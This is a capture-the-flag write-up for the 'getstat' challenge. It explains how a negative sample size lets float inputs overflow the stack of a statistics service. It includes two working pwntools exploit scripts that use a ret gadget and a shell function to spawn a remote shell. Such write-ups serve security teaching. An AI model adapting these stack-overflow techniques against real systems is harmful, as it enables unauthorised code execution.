 # [getstat](https://github.com/redrocket-ctf/csr-2021-tasks/tree/main/getstat)

## Challenge setup

The challenge consists of a remote (binary) service that accepts a number of probes and calculates the average and deviation of all probes.
The binary and docker setup of the remote server are provided with the challenge.

```
            _       _        _   
           | |     | |      | |  
  __ _  ___| |_ ___| |_ __ _| |_ 
 / _` |/ _ \ __/ __| __/ _` | __|
| (_| |  __/ |_\__ \ || (_| | |_ 
 \__, |\___|\__|___/\__\__,_|\__|
  __/ |                          
 |___/                           
 
 Bitte Größe der Stichprobe eingeben: 2
 Bitte Wert eingeben: 1
 Bitte Wert eingeben: 2
 Arithmetisches Mittel: 1.5000000
 Korrigierte Stichprobenvarianz: 0.500000
```

## First look:

- You can enter negative sizes and you still get prompted for input
- You can abort the program by entering somthing that can't be parsed as a float
- When you enter something like `-1` for size, enter enough data points and then abort, you receive
   ```
   *** stack smashing detected ***: terminated
   Aborted (core dumped)
   ```
- The values seem to be allocated on the stack!

It should be possible to overwrite the return address and then abort the program to jump to arbitrary addresses.

Tasks:
- Figure out offset of stack pointer
- Figure out where we should jump to

For this, we disassembled the provided binary using ghidra.
There, we tried to understand the code by renaming some labels and found out that the binary contains a shell function at address `0x401360` that calls system with `sh`
Furthermore, we noticed that the values are read as 64bit floats, so we have to enter all addresses using floating point numbers.

The stack offset is 16byte aligned, and the return address is 88 bytes from the input pointer, so we use size `-10` to get close to the return address,
then write some garbage, and the target address as a float.

First exploit:
```py
from pwn import *
import struct

def iToF(i):
  b = struct.pack('q', i)
  return struct.unpack('d', b)[0]
  
addr = 0x401360

r = remote('challs.rumble.host', 3143)
r.sendlineafter(b':', b'-10')
r.sendlineafter(b':', b'0')
r.sendlineafter(b':', bytes(str(iToF(addr)), 'utf-8'))
r.sendlineafter(b':', b'a')
r.interactive()
```

This worked on my local machine, but not on the remote host.
Thankfully, the docker setup of the challenge was also provided.
Debugging the exploit in docker revealed that the `system('sh')` expected a 16byte stack alignment, while our stack alignment was only 8bytes.

This can be fixed by a 'ret gadget'.

Instead of jumping directly to the shell function, we first jump to another ret instruction, which pops additional 8 bytes from the stack, fixing our stack alignment.

The main function itself has a ret instruction at a static address, so we just use it.

```py
from pwn import *
import struct

def iToF(i):
  b = struct.pack('q', i)
  return struct.unpack('d', b)[0]
 
ret = 0x4013e4
addr = 0x401360

r = remote('challs.rumble.host', 3143)
r.sendlineafter(b':', b'-10')
r.sendlineafter(b':', b'0')
r.sendlineafter(b':', bytes(str(iToF(ret)), 'utf-8'))
r.sendlineafter(b':', bytes(str(iToF(addr)), 'utf-8'))
r.sendlineafter(b':', b'a')
r.interactive()
```

Now we have an interactive shell, and we can read the flag from the filesystem.
